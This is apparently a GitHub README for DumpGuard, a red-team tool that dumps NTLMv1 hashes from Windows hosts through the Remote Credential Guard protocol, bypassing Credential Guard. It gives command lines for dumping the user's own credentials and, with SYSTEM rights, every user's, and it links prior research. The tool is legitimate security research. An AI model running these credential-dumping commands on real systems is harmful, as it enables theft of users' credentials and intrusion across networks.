

# DumpGuard
[](LICENSE)
[](https://ghst.ly/BHSlack)
[](https://github.com/specterops)


DumpGuard is a credential dumping tool that can extract the NTLMv1 hashes of users on modern Windows systems.

The tool relies on the _Remote Credential Guard_ protocol, and allows credential dumping even when _Credential Guard_ is enabled on the local host.

You may download prebuilt copies from the release section of this repository.

## Usage Overview


## Dumping Own Credentials Protected By Credential Guard
Privilege Requirement: **None**.

```
DumpGuard.exe /mode:self /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Credentials Protected By Credential Guard
Privilege Requirement: **SYSTEM**.

```
DumpGuard.exe /mode:all /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Credentials Protected By Remote Credential Guard
Privilege Requirement: **SYSTEM**.

```
DumpGuard.exe /mode:all
```

This is equivalent to the following [LSA Whisperer](https://github.com/EvanMcBroom/lsa-whisperer) command:
```
lsa-whisperer.exe msv1_0 Lm20GetChallengeResponse --luid {session id} --challenge {challenge to clients} [flags...]
```

## Acknowledgements

Thank you to [SpecterOps](https://specterops.io/) for supporting this research and to my coworkers who have helped with its development.
- [Elad Shamir](https://twitter.com/elad_shamir) for inspiring this tool and research, and for offering valuable perspective and encouragement whenever I hit a wall.
- [Evan McBroom](https://github.com/EvanMcBroom) for sharing useful insights on LSA internals and providing ASN.1 encoders for most of the structures used in this project.

## Related Work

- [Oliver Lyak](https://github.com/ly4k) ([2022](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)), for what is, to my knowledge, the only public research on dumping credentials protected by Credential Guard.
- [James Forshaw](https://x.com/tiraniddo) ([2022](https://project-zero.issues.chromium.org/issues/42451433), [2022](https://project-zero.issues.chromium.org/issues/42451435), [2022](https://project-zero.issues.chromium.org/issues/42451397), [2022](https://project-zero.issues.chromium.org/issues/42451436)), for vulnerability submissions that slightly documents some of the undocumented interfaces that we have researched.
